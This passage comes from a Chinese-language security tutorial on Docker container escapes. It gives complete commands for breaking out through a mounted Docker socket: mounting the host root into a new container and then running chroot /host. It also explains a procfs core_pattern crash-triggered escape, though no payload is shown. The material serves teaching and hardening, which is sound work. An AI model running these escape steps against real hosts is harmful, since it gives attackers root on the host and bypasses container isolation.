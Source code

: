 ```bash
# --security-opt apparmor=unconfined：由于默认情况下会开启AppArmor配置，从而保证docker以严格模式运行使用权限限制较高。这里改为unconfined表示去除默认的AppArmor配置，即不开启严格模式运行容器。
docker run --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu:18.04 /bin/bash
```

## 0x03 不安全挂载导致的容器逃逸

为了方便宿主机与虚拟机进行数据交换，几乎所有主流虚拟机解决方案都会提高挂载宿主机目录到虚拟机的功能。容器同样如此，但是将宿主机上的敏感文件或目录挂载到容器内部往往会带来安全问题。

### 3.1  挂载 Docker Socket 的情况：攻击者可“基本”从容器内逃逸

Docker Socket 是 Docker 守护进程监听的 UNIX 域套接字，用来与守护进程通信（查询或下发命令）。如果在攻击者可控的容器内挂载了此套接字文件（/var/run/docker.sock），容器逃逸就会变得很容易。

#### 3.1.1 漏洞利用

1. 创建一个容器并挂载/var/run/docker.sock
2. 在容器内安装 docker 命令行客户端
3. 使用此客户端通过 docker socket 与 docker 守护进程通信，发送命令创建并运行一个新的容器，将宿主机根目录挂载到新创建的容器内部
4. 在新容器内执行 chroot，将根目录切换到挂载的宿主机根目录

```bash
docker run -itd --name docker_sock -v /var/run/docker.sock:/var/run/docker.sock ubuntu:18.04
# 进入容器
ls -al /var/run/docker.sock
# 安装docker-ce-cli
apt-get update
apt-get install ca-certificates curl gnupg lsb-release
curl -fsSL http://mirrors.aliyun.com/docker-ce/linux/ubuntu/gpg | apt-key add -
apt-get install software-properties-common
apt-get update
add-apt-repository "deb [arch=amd64] http://mirrors.aliyun.com/docker-ce/linux/ubuntu $(lsb_release -cs) stable"
apt-get install docker-ce docker-ce-cli containerd.io
# 利用此客户端通过docker socket与docker守护进程通信，发送命令创建并运行一个新的容器
docker ps # 可发现此时的返回结果是宿主机上的容器进程
docker run -it -v /:/host ubuntu:18.04 /bin/bash # 创建容器并将宿主机根目录挂载到新创建的容器中
chroot /host # 使用chroot将根目录切换到挂载的宿主机根目录
```

![32f36e21811140dca0842f5d69ae2c87.png](https://s2.loli.net/2023/10/07/IX6nFHmpKvSlAu9.png)

### 3.2  挂载宿主机 procfs 的情况

**procfs**是进程文件系统的缩写（**proc filesystem**），是一个伪文件系统（启动时动态生成的文件系统），它动态反映系统内进程以及其他组件的状态，其中有许多非常敏感、重要的文件。因此将宿主机的 procfs 挂载到不受控的容器中非常危险，尤其是在该容器内默认启用 root 权限，且没有为这个容器开启 user namespace 时。docker 默认情况下不会为容器开启 user namespace。

procfs 中的 <code>/proc/sys/kernel/core_pattern</code>负责配置进程崩溃时内存转储数据的导出方式，如果 <code>/proc/sys/kernel/core_pattern</code>文件中的首个字符是管道符<code>|</code> ，那么该行的剩余内容将被当作用户空间程序或脚本解释并执行。因此这种逃逸方式可以通过进程崩溃来触发。

<u>攻击者进入一个挂载了宿主机 procfs 的容器中，具有 root 权限，然后向宿主机 procfs 写入 payload，接着制造崩溃，触发内存转储。</u>

